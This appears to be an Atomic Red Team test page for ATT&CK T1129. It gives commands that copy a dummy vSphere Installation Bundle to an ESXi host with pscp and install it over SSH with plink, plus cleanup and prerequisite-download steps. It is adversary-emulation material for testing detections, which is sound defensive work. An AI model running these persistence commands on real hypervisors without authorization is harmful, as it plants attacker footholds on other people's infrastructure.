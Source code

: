 ```yaml
---
tags: [T1129, atomic_test]
filename: "[[T1129 - Server Software Component]]"
---
```

# T1129 - Server Software Component

## Atomic Test #1 - ESXi - Install a custom VIB on an ESXi host
An adversary can maintain persistence within an ESXi host by installing malicious vSphere Installation Bundles (VIBs).
[Reference](https://www.mandiant.com/resources/blog/esxi-hypervisors-malware-persistence)

**Supported Platforms:** Windows


**auto_generated_guid:** 7f843046-abf2-443f-b880-07a83cf968ec





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| vm_host | Specify the host name of the ESXi Server | string | atomic.local|
| vm_user | Specify the privilege user account on ESXi Server | string | root|
| vm_pass | Specify the privilege user password on ESXi Server | string | pass|
| plink_file | Path to plink | path | PathToAtomicsFolder&#92;..&#92;ExternalPayloads&#92;plink.exe|
| pscp_file | Path to Pscp | path | PathToAtomicsFolder&#92;..&#92;ExternalPayloads&#92;pscp.exe|
| vib_install | Path to script with commands to install the vib | path | PathToAtomicsFolder&#92;..&#92;atomics&#92;T1129&#92;src&#92;esxi_vibinstall.txt|
| vib_remove | Path to script with commands to remove the vib | path | PathToAtomicsFolder&#92;..&#92;atomics&#92;T1129&#92;src&#92;esxi_vibremove.txt|
| vib_file | Path to the dummy vib | path | PathToAtomicsFolder&#92;..&#92;atomics&#92;T1129&#92;src&#92;atomicvibes.vib|


#### Attack Commands: Run with `command_prompt`! 


```cmd
#{pscp_file} -pw #{vm_pass} #{vib_file} #{vm_user}@#{vm_host}:/tmp
echo "" | "#{plink_file}" "#{vm_host}" -ssh  -l "#{vm_user}" -pw "#{vm_pass}" -m "#{vib_install}"
```

#### Cleanup Commands:
```cmd
echo "" | "#{plink_file}" "#{vm_host}" -ssh  -l "#{vm_user}" -pw "#{vm_pass}" -m "#{vib_remove}"
```



#### Dependencies:  Run with `powershell`!
##### Description: Check if plink and pscp are available.
##### Check Prereq Commands:
```powershell
if (Test-Path "#{plink_file}") {exit 0} else {exit 1}
if (Test-Path "#{pscp_file}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
Invoke-WebRequest "https://the.earth.li/~sgtatham/putty/latest/w64/plink.exe" -OutFile "PathToAtomicsFolder\..\ExternalPayloads\plink.exe"
Invoke-WebRequest "https://the.earth.li/~sgtatham/putty/latest/w64/pscp.exe" -OutFile "PathToAtomicsFolder\..\ExternalPayloads\pscp.exe"
```




<br/>
